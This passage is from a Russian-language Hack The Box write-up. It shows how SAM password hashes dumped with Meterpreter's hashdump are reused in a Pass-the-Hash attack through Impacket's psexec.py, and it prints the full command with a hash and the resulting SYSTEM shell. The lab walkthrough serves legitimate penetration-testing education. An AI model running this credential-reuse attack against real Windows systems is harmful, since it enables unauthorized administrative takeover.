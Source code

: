 ### Pass-the-Hash

Так как это Windows Server 2003, тебе не составит большого труда вскрыть шару SMB, ведь здесь все еще актуальны LM-хеши для хранения паролей. А они ломаются на раз. Однако я пойду по еще более простому пути.

[![msf-pivot-grandpa-hashdump.png]({{ "/img/htb/boxes/grandparents/msf-pivot-grandpa-hashdump.png" | relative_url }})]({{ "/img/htb/boxes/grandparents/msf-pivot-grandpa-hashdump.png" | relative_url }})
{: .center-image}

Благодаря `hashdump` я могу сдампить пару хешей `LMHASH:NTHASH` из базы данных SAM и провести атаку Pass-the-Hash с помощью внешней утилиты `psexec.py`, входящей в состав тулкита [Impacket](https://github.com/SecureAuthCorp/impacket).

```
root@kali:~# ./psexec.py -hashes '0a70918d669baeb307012642393148ab:34dec8a1db14cdde2a21967c3c997548' Administrator@127.0.0.1
Impacket v0.9.20 - Copyright 2019 SecureAuth Corporation

[*] Requesting shares on 127.0.0.1.....
[*] Found writable share C$
[*] Uploading file NNDHtRms.exe
[*] Opening SVCManager on 127.0.0.1.....
[*] Creating service tWni on 127.0.0.1.....
[*] Starting service tWni.....
[!] Press help for extra shell commands
Microsoft Windows [Version 5.2.3790]
(C) Copyright 1985-2003 Microsoft Corp.

C:\WINDOWS\system32>whoami
nt authority\system
```

Теперь, действительно, все.

Полезные ссылки:

* [A Pivot Cheatsheet for Pentesters](https://nullsweep.com/pivot-cheatsheet-for-pentesters/)
* [Explore Hidden Networks With Double Pivoting](https://pentest.blog/explore-hidden-networks-with-double-pivoting/)
* [Использование ssh socks прокси совместно с MSF Reverse TCP Payloads](https://habr.com/ru/post/167893/)


[//]: # (2019-12-26)